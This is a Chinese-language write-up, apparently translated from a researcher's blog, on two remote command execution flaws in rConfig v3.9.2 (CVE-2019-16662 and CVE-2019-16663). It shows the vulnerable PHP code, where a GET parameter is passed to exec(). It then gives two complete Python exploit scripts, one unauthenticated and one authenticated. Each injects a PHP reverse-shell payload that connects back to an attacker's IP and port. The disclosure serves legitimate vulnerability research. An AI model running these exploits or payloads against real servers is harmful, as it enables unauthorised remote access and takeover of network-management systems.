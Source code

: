 ## rConfig v3.9.2 RCE漏洞

## 0x00 前言

rConfig是一个开源网络设备配置管理解决方案，可以方便网络工程师快速、频繁管理网络设备快照。

我在rConfig的两个文件中找到了两个远程命令执行（RCE）漏洞，第一个文件为`ajaxServerSettingsChk.php`，攻击者可以通过`rootUname`参数发送精心构造的一个GET请求，触发未授权RCE漏洞。`rootUname`参数在源文件第2行中定义，随后会在第13行传递给`exec`函数。攻击者可以将恶意系统命令插入该参数中，在目标服务器上执行。该漏洞利用和发现过程比较简单，下文中我将介绍如何发现并利用该漏洞。

第二个漏洞位于`search.crud.php`文件中，存在RCE漏洞。攻击者可以发送精心构造的GET请求触发该漏洞，请求中包含两个参数，其中`searchTerm`参数可以包含任意值，但该参数必须存在，才能执行到第63行的`exec`函数。

我像往常一样想寻找RCE漏洞，因此我使用自己开发的一个[python脚本](https://github.com/mhaskar/RCEScanner)来搜索所有不安全的函数。

## 0x01 未授权RCE漏洞

运行脚本后，我看到了一些输出结果。检查文件后，我发现有个文件名为`ajaxServerSettingsChk.php`，具体路径为`install/lib/ajaxHandlers/ajaxServerSettingsChk.php`，部分代码如下：

```php
<?php
$rootUname = $_GET['rootUname'];    // line 2
$array = array();
/* check PHP Safe_Mode is off */
if (ini_get('safe_mode')) {
    $array['phpSafeMode'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;bad&amp;amp;quot;&amp;amp;gt;Fail - php safe mode is on - turn it off before you proceed with the installation&amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;br/&amp;amp;gt;';
} else {
    $array['phpSafeMode'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;Good&amp;amp;quot;&amp;amp;gt;Pass - php safe mode is off&amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;&amp;amp;lt;br/&amp;amp;gt;';
}

/* Test root account details */
$rootTestCmd1 = 'sudo -S -u ' . $rootUname . ' chmod 0777 /home 2&amp;amp;gt;&amp;amp;amp;1';    // line 12
exec($rootTestCmd1, $cmdOutput, $err);    // line 13
$homeDirPerms = substr(sprintf('%o', fileperms('/home')), -4);
if ($homeDirPerms == '0777') {
    $array['rootDetails'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;Good&amp;amp;quot;&amp;amp;gt;Pass - root account details are good &amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;&amp;amp;lt;br/&amp;amp;gt;';
} else {
    $array['rootDetails'] = '&amp;amp;lt;strong&amp;amp;gt;&amp;amp;lt;font class=&amp;amp;quot;bad&amp;amp;quot;&amp;amp;gt;The root details provided have not passed: ' . $cmdOutput[0] . '&amp;amp;lt;/strong&amp;amp;gt;&amp;amp;lt;/font&amp;amp;gt;&amp;amp;lt;br/&amp;amp;gt;';
}
// reset /home dir permissions
$rootTestCmd2 = 'sudo -S -u ' . $rootUname . ' chmod 0755 /home 2&amp;amp;gt;&amp;amp;amp;1';    // line 21
exec($rootTestCmd2, $cmdOutput, $err);    // line 22

echo json_encode($array);
```

## POC x1

```python
#!/usr/bin/python

# Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
# Date: 18/09/2019
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2019-16662
# Vendor Homepage: https://rconfig.com/
# Software link: https://rconfig.com/download
# Version: v3.9.2
# Tested on: CentOS 7.7 / PHP 7.2.22

import requests
import sys
from urllib import quote
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

if len(sys.argv) != 4:
    print "[+] Usage : ./exploit.py target ip port"
    exit()

target = sys.argv[1]

ip = sys.argv[2]

port = sys.argv[3]

payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port))

install_path = target + "/install"

req = requests.get(install_path, verify=False)
if req.status_code == 404:
    print "[-] Installation directory not found!"
    print "[-] Exploitation failed !"
    exit()
elif req.status_code == 200:
    print "[+] Installation directory found!"
url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

print "[+] Triggering the payload"
print "[+] Check your listener !"

requests.get(url_to_send, verify=False)

```

## POC x2

```python
#!/usr/bin/python

# Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
# Date: 18/09/2019
# Exploit Author: Askar (@mohammadaskar2)
# CVE : CVE-2019-16663
# Vendor Homepage: https://rconfig.com/
# Software link: https://rconfig.com/download
# Version: v3.9.2
# Tested on: CentOS 7.7 / PHP 7.2.22


import requests
import sys
from urllib import quote
from requests.packages.urllib3.exceptions import InsecureRequestWarning


requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

if len(sys.argv) != 6:
    print "[+] Usage : ./exploit.py target username password ip port"
    exit()

target = sys.argv[1]

username = sys.argv[2]

password = sys.argv[3]

ip = sys.argv[4]

port = sys.argv[5]

request = requests.session()

login_info = {
    "user": username,
    "pass": password,
    "sublogin": 1
}

login_request = request.post(
    target+"/lib/crud/userprocess.php",
     login_info,
     verify=False,
     allow_redirects=True
 )

dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


if dashboard_request.status_code == 200:
    print "[+] LoggedIn successfully"
    payload = '''""&amp;&amp;php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port)
    encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&amp;catCommand={0}".format(quote(payload))
    print "[+] triggering the payload"
    print "[+] Check your listener !"
    exploit_req = request.get(encoded_request)

elif dashboard_request.status_code == 302:
    print "[-] Wrong credentials !"
    exit()
```

### 原文： https://shells.systems/rconfig-v3-9-2-authenticated-and-unauthenticated-rce-cve-2019-16663-and-cve-2019-16662/ 

### 英译中： https://www.anquanke.com/post/id/189795 

### PDF版本：[本地：rConfig v3.9.2 RCE漏洞分析.pdf](./books/rConfig%20v3.9.2%20RCE漏洞分析.pdf)

